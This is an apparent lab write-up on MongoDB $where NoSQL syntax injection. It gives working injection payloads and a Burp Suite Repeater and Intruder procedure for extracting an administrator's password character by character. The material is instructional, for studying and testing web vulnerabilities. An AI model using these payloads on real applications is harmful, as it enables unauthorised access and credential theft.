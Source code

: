 # Exploiting syntax injection to extract data

In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.

## Exfiltrating data in MongoDB
Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
```bash
https://insecure-website.com/user/lookup?username=admin
```
This results in the following NoSQL query of the users collection:
```bash
{"$where":"this.username == 'admin'"}
```
As the query uses the `$where` operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```bash
admin' && this.password[0] == 'a' || 'a'=='b
```
This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```bash
admin' && this.password.match(/\d/) || 'a'=='b
```

# Lab

1) In Burp, go to Proxy > HTTP history. Right-click the `GET /user/lookup?user=wiener` request and select Send to Repeater.
2) Submit a `'` character in the user parameter. Notice that this causes an error. This may indicate that the user input was not filtered or sanitized correctly.
3) Submit a valid JavaScript payload in the user parameter. For example, you could use `wiener'+'` URL ENCODE Notice that it retrieves the account details for the wiener user, which indicates that a form of server-side injection may be occurring.
4) Identify whether you can inject boolean conditions to change the response:<br>Submit:<br>`wiener' && '1'=='2` notice error appeared<br>Submit:<br>`wiener' && '1'=='1`notice error is gone.<br>This demonstrates that you can trigger different responses for true and false conditions.
5) Change the `user` parameter to `administrator' && this.password.length < 30 || 'a'=='b` then send the request.
Notice that the response retrieves the account details for the `administrator` user. This indicates that the condition is true because the password is less than 30 characters.<br>
6) We will check by decreasing number .
7) Enumerate password using intruder: Change the user parameter to `administrator' && this.password[§0§]=='§a§`. This includes two payload positions. We will use cluster bomb
8) We know password contains 8 character for first payload we will use numbers from 0 to 7 step 1 and second payload we will use lower-case letters from a to z.
